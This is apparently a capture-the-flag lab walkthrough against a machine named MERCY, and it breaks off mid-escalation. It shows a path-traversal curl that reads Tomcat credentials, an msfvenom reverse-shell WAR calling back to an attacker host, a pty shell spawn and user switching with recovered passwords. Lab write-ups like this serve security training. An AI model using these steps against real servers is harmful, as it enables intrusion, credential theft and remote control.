 ## On port 8080

    curl http://192.168.110.17:8080
    If you're seeing this page via a web browser, it means you've setup Tomcat successfully. Congratulations!

    This is the default Tomcat home page. It can be found on the local filesystem at: /var/lib/tomcat7/webapps/ROOT/index.html

    Tomcat7 veterans might be pleased to learn that this system instance of Tomcat is installed with CATALINA_HOME in /usr/share/tomcat7 and CATALINA_BASE in /var/lib/tomcat7, following the rules from /usr/share/doc/tomcat7-common/RUNNING.txt.gz.

    You might consider installing the following packages, if you haven't already done so:

    tomcat7-docs: This package installs a web application that allows to browse the Tomcat 7 documentation locally. Once installed, you can access it by clicking here.

    tomcat7-examples: This package installs a web application that allows to access the Tomcat 7 Servlet and JSP examples. Once installed, you can access it by clicking here.

    tomcat7-admin: This package installs two web applications that can help managing this Tomcat instance. Once installed, you can access the manager webapp and the host-manager webapp.

    NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in /etc/tomcat7/tomcat-users.xml.


    curl http://192.168.110.61/nomercy/windows/code.php?file=../../../../../../var/lib/tomcat7/conf/tomcat-users.xml

    ```xml
    <user username="thisisasuperduperlonguser" password="heartbreakisinevitable" roles="admin-gui,manager-gui"/>
    <user username="fluffy" password="freakishfluffybunny" roles="none"/> 

    ```

## Upload shell via tomcat


```bash
   
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.1 LPORT=1234 -f war -o revshell.war

```

## Escalation privileges

    python -c "import pty;pty.spawn('/bin/sh')"
    $ id
    uid=116(tomcat7) gid=126(tomcat7) groups=126(tomcat7)
    $ su qiu
    Password: password
    qiu@MERCY:/etc$ id
    uid=1001(qiu) gid=1001(qiu) groups=1001(qiu)
    qiu@MERCY:/etc$ su fluffy                        
    Password: freakishfluffybunny
    $ id
    uid=1003(fluffy) gid=1003(fluffy) groups=1003(fluffy)
    cat /home/fluffy/.private/secrets/timeclock
    #!/bin/bash
